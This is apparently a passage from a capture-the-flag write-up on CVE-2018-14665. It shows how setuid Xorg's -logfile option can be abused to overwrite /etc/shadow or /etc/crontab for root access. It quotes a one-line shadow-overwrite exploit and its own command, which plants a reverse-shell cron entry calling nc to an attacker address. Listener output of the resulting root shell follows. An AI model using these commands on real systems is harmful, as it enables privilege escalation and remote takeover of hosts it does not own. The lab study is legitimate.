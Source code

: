 The basic vulnerability is pretty simple: Xorg, assuming it’s running setuid, can overwrite a log file wherever the user tells it to with whatever data the user gives it. There will be other data in there, but that can still be quite powerful.
For example, HackerFantastic on Twitter tweeted out a POC in a single tweet:
#CVE-2018-14665 - a LPE exploit via [https://t.co/eax3fvaAjE](https://t.co/eax3fvaAjE) fits in a tweetcd /etc; Xorg -fp "root::16431:0:99999:7:::" -logfile shadow :1;suOverwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
— Hacker Fantastic (@hackerfantastic) October 25, 2018
Exploit
With that in mind, there are a few places I could target. The /etc/master.passwd file (like /etc/shadow on BSD). I’ll go for the crontab.
I started a listener on port 443, and then wrote my cron:
ypuffy$ Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f" -logfile crontab :1 &
This will error out (and I’ll have to kill it), but it will also write that dump to a log file which I specified, /etc/crontab.
I can look at that file:
[178588.565] (WW) checkDevMem: failed to open /dev/xf86 and /dev/mem
(Operation not permitted)
Check that you have set 'machdep.allowaperture=1'
in /etc/sysctl.conf and reboot your machine
refer to xf86(4) for details
[178588.565]    linear framebuffer access unavailable
[178588.779] (--) Using wscons driver on /dev/ttyC4
[178588.788]
[X.Org](http://x.org/) X Server 1.19.6
Release Date: 2017-12-20
...[snip]...
[178588.790] (==) Max clients allowed: 256, resource mask: 0x1fffff
[178588.790] (++) FontPath set to:
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f
[178588.790] (==) ModulePath set to "/usr/X11R6/lib/modules"
[178588.790] (II) The server relies on wscons to provide the list of input devices.
If no devices become available, reconfigure wscons or disable AutoAddDevices.
[178588.790] (II) Loader magic: 0x199318742000
...[snip]...
Fatal server error:
[178588.796] (EE) Caught signal 11 (Segmentation fault). Server aborting
[178588.796] (EE)
[178588.796] (EE)
Please consult the The [X.Org](http://x.org/) Foundation support
at [http://wiki.x.org](http://wiki.x.org/)
for help.
[178588.796] (EE) Please also check the log file at "crontab" for additional information.
[178588.796] (EE)
[178588.797] (EE) Server terminated with error (1). Closing log file.
There’s a ton going on there, and a bunch more I cut out, but all that really matters is the line in the middle with a cron-formatted string saying to initiate a reverse shell back to me every minute.
The next time the minute rolls over, I get a root shell:
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( [https://nmap.org/ncat](https://nmap.org/ncat) )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.107.
Ncat: Connection from 10.10.10.107:25572.
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
If you do happen to overwrite another file, then it will save the original file by appending .old.
Another options for a cron would be to make a setuid shell: